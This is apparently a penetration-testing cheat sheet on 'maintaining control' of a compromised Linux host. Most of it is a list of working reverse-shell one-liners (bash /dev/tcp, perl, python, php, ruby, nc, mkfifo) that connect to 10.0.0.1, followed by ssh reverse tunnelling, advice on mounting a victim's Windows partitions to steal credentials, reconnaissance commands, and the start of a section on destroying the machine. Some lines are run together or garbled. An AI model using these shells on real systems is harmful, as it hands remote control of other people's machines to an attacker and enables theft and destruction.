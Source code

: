 # Maintaining control
## Reverse Shell
Starting list sourced from: http://pentestmonkey.net/cheat-sheet/shells/reverse-shell-cheat-sheet
* bash -i >& /dev/tcp/10.0.0.1/8080 0>&1 (No /dev/tcp on older Debians, but use nc, socat, TCL, awk or any interpreter like Python, and so on.).
* perl -e 'use Socket; $i="10.0.0.1"; $p=1234; socket(S,PF_INET, SOCK_STREAM, getprotobyname("tcp")); if(connect(S,sockaddr_in($p,inet_aton($i)))){ open(STDIN,">&S"); open(STDOUT,">&S"); open(STDERR,">&S"); exec("/bin/sh -i");};'
* python -c 'import socket,subprocess,os; s=socket.socket(socket.AF_INET, socket.SOCK_STREAM); s.connect(("10.0.0.1",1234)); os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2); p=subprocess.call(["/bin/sh","-i"]);'
* php -r '$sock=fsockopen("10.0.0.1",1234);exec("/bin/sh -i <&3 >&3 2>&3");'
* ruby -rsocket -e'f=TCPSocket.open("10.0.0.1",1234).to_i; exec sprintf("/bin/sh -i <&%d >&%d 2>&%d",f,f,f)' nc -e /bin/sh 10.0.0.1 1234 # note need -l on some versions, and many does NOT support -e anymore
* rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.0.0.1 1234 >/tmp/f
* xterm -display 10.0.0.1:1se
* Listener- Xnest :1
* Add permission to connect- xhost +victimIP
* ssh -NR 3333:localhost:22 user@yourhost
* nc -e /bin/sh 10.0.0.1 1234

Fun if Windows is present and accessible
If there is Windows installed and the logged-in user access level includes those Windows partition, attacker can mount them up and do a much deeper information gathering, credential theft and root-ing. Ntfs-3g is useful for mounting ntfs partitions read-write.
TODO: insert details on what to look for

Stuff to be sorted
# GOING TO MOVE EVERYTHING HERE FOR LEGIBILITY ONCE EDITING DIES DOWN

| Command | Output |
+---------+--------+
| ps aux | List of running processes |
| id | List current user and group along with user/group id |
| w | Show info about who is logged, what are they are doing |
| who -a | Print information about users |
| cat /dev/core > /dev/audio | |
| cat /dev/mem > /dev/audio | Makes a sound from the memory content. Usefulness of this??? (none, aside from pissing off the sysadmin, in the very unlikely case that the server has speakers and the legacy OSS driver) |
| sudo -p | allows the user to define what the password prompt will be (useful for fun customization with aliases or shell scripts) |

## Deleting and Destroying
(If it is necessary to leave the machine inaccessible or unusable)
Note that this tends to be quite evident (as opposed to a simple exploitation that might go unnoticed for some time, even forever), and will most surely get you into troubles.
